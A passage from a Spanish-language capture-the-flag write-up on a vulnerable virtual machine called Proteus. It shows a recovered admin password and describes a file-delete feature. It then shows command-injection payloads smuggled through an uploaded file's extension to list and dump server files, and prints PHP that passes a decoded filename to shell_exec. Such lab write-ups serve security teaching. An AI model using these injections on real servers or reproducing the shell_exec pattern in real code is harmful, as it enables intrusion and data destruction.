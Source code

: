 ```
...
```

# Contraseña de *malwareadm*

No sé si esta es la forma que el creador de la máquina virtual ha previsto para encontrar la clave... pero bueno, aquí la hemos obtenido en codificación BASE64. Si la ponemos en claro, tenemos:

+ **Usuario**: *malwareadm*
+ **Contraseña**: *q-L@X!{l_'8|)o?Q+TapahQ<_*

![malwareadm logged in]({{ site.url }}/assets/proteus_malwareadm_loggedin.png "malwareadm logged in")

Y comprobamos que la página *samples* ahora nos muestra una nueva opción **DELETE** que nos permite borrar archivos previamente subidos.

Este borrado se realiza mediante un link en el que se indica el fichero a borrar utilizando la codificación BASE64 del nombre de archivo:

![Enlace para borrar archivo]({{ site.url }}/assets/proteus_delete_sample_code.png "Enlace para borrar archivo")

Si borramos alguno de los archivos:

![Archivo borrado]({{ site.url }}/assets/proteus_sample_deleted.png "Archivo borrado")

Recordemos que habíamos encontrado que existe el archivo *route.delete.php*. Como el parámetro que se utiliza para borrar un archivo es el nombre de dicho archivo en codificación BASE64, podemos pensar que es posible realizar algún tipo de inyección de código. En lugar de hacer pruebas a ciegas, vamos a ver el contenido de dicho archivo para comprobar si es posible.

Para obtener el código de dicha página, subimos un archivo y modificamos la extensión:

```
Usamos como extensión .elf&find $(dirname $(dirname `pwd`)) -name *delete*

/home/malwareadm/sites/proteus_site/web/templates/delete.twig.html
/home/malwareadm/sites/proteus_site/web/routes/route.delete.php
```

Vemos que hay dos ficheros... mostramos el contenido de ambos.

```
Usamos como extensión .elf&for d in $(find $(dirname $(dirname `pwd`)) -name *delete*); do strings $d; done

...
<?php
  $app->get('/delete/:filename/?',
          $work = function ($filename) use ($app) {
              if (isset($_SESSION['name'])) {
                $message = "Logged in as: " . $_SESSION['name'];
                if (isset($_SESSION['admin'])) {
                  $admin = 1;
                } else {
                  $admin = 0;
                }
              } else {
                $app->redirect(conf::INSTALLED_DIRECTORY);
              }
              //get all submitted files
              foreach(array_diff(scandir(Conf::FILE_PATH), array('.', '..')) as $file) {
                if (strpos(base64_decode($filename), $file) !== false) {
                  shell_exec('rm '. Conf::FILE_PATH . base64_decode($filename));
                  $message = "Successfully deleted " . Conf::FILE_PATH . base64_decode($filename);
                }
              }
```